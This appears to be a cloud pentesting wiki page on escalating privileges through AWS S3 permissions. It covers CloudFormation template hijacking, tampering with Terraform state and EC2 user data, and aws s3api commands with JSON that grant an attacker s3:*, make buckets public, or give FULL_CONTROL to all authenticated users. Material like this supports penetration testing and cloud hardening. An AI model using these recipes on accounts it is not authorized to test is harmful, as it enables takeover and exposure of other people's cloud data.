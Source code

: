 # AWS - S3 Privesc

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

An attacker with those permissions over interesting buckets might be able to hijack resources and escalate privileges.

For example, an attacker with those **permissions over a cloudformation bucket** called "cf-templates-nohnwfax6a6i-us-east-1" will be able to hijack the deployment. The access can be given with the following policy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "s3:PutBucketNotification",
        "s3:GetBucketNotification",
        "s3:PutObject",
        "s3:GetObject"
      ],
      "Resource": [
        "arn:aws:s3:::cf-templates-*/*",
        "arn:aws:s3:::cf-templates-*"
      ]
    },
    {
      "Effect": "Allow",
      "Action": "s3:ListAllMyBuckets",
      "Resource": "*"
    }
  ]
}
```

And the hijack is possible because there is a **small time window from the moment the template is uploaded** to the bucket to the moment the **template is deployed**. An attacker might just create a **lambda function** in his account that will **trigger when a bucket notification is sent**, and **hijacks** the **content** of that **bucket**.

![[../../../images/image (174).png]]

The Pacu module [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection) can be used to automate this attack.\
For mor informatino check the original research: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` 

These are the permissions to **get and upload objects to S3**. Several services inside AWS (and outside of it) use S3 storage to store **config files**.\
An attacker with **read access** to them might find **sensitive information** on them.\
An attacker with **write access** to them could **modify the data to abuse some service and try to escalate privileges**.\
These are some examples:

- If an EC2 instance is storing the **user data in a S3 bucket**, an attacker could modify it to **execute arbitrary code inside the EC2 instance**.

### `s3:PutObject`, `s3:GetObject` (optional) over terraform state file

It is very common that the [terraform](https://cloud.hacktricks.wiki/en/pentesting-ci-cd/terraform-security.html) state files are being saved to blob storage of cloud providers, e.g. AWS S3. The file suffix for a state file is `.tfstate`, and the bucket names often also give away that they contain terraform state files. Usually, every AWS account has one such bucket to store the state files that show the state of the account.
Also usually, in real world accounts almost always all developers have `s3:*` and sometimes even business users have `s3:Put*`.

So, if you have the permissions listed over these files, there is an attack vector that allows you to gain RCE in the pipeline with the privileges of `terraform` - most of the time `AdministratorAccess`, making you the admin of the cloud account. Also, you can use that vector to do a denial of service attack by making `terraform` delete legitimate resources.

Follow the description in the *Abusing Terraform State Files* section of the *Terraform Security* page for directly usable exploit code:

[[../../../pentesting-ci-cd/terraform-security.md#abusing-terraform-state-files]]

### `s3:PutBucketPolicy`

An attacker, that needs to be **from the same account**, if not the error `The specified method is not allowed will trigger`, with this permission will be able to grant himself more permissions over the bucket(s) allowing him to read, write, modify, delete and expose buckets.

```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
    "Id": "Policy1568185116930",
    "Version":"2012-10-17",
    "Statement":[
        {
            "Effect":"Allow",
            "Principal":{
                "AWS":"arn:aws:iam::123123123123:root"
            },
            "Action":"s3:ListBucket",
            "Resource":"arn:aws:s3:::somebucketname"
        },
        {
            "Effect":"Allow",
            "Principal":{
                "AWS":"arn:aws:iam::123123123123:user/username"
            },
            "Action":"s3:*",
            "Resource":"arn:aws:s3:::somebucketname/*"
        }
    ]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
  "Id": "Policy1568185116930",
  "Version": "2012-10-17",
  "Statement": [
  {
      "Sid": "Stmt1568184932403",
      "Action": [
        "s3:ListBucket"
      ],
      "Effect": "Allow",
      "Resource": "arn:aws:s3:::welcome",
      "Principal": "*"
  },
  {
    "Sid": "Stmt1568185007451",
    "Action": [
      "s3:GetObject"
    ],
    "Effect": "Allow",
    "Resource": "arn:aws:s3:::welcome/*",
    "Principal": "*"
  }
  ]
}
```

### `s3:GetBucketAcl`, `s3:PutBucketAcl`

An attacker could abuse these permissions to **grant him more access** over specific buckets.\
Note that the attacker doesn't need to be from the same account. Moreover the write access

```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectAcl`

An attacker could abuse these permissions to grant him more access over specific objects inside buckets.

```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

An attacker with these privileges is expected to be able to put an Acl to an specific object version

```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```

